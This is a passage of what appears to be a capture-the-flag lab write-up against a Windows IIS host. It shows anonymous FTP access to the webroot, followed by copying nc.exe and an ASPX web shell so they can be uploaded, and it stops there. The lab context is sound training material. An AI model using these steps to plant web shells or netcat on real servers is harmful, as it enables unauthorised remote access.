 ```none
< Accept-Ranges: bytes
< ETag: "37b5ed12c9fd21:0"
< Server: Microsoft-IIS/7.5
< X-Powered-By: ASP.NET
< Date: Fri, 16 Jul 2021 23:07:44 GMT
< Content-Length: 689
```

Not much happening here. Started a `gobuster` on the webroot, and moved to FTP.

## 21 Anonymous FTP

The nmap scan reported FTP as being open to anonymous logins.

```none
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
```

Log in using the username `anonymous` and any password.

```none
└─$ ftp 10.10.10.5    
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:thomas): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
```

This showed some interesting files. Most noticeably, the `welcome.png` and `iisstart.htm` files listed are used on the webserver - so this looks like the webserver root folder and the FTP root folder.

```none
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```

Since we have anonymous access we can upload and download files. Not much to download, but we can upload some useful tools. Copied some tools to a local folder to upload.

```none
cp /usr/share/windows-binaries/nc.exe .
cp /home/thomas/tools/SecLists/Web-Shells/FuzzDB/cmd.aspx .
```

I got the APSX webshell from [SecLists](https://github.com/danielmiessler/SecLists), and `nc.exe` from the version on Kali. Then uploaded them to the server using FTP.
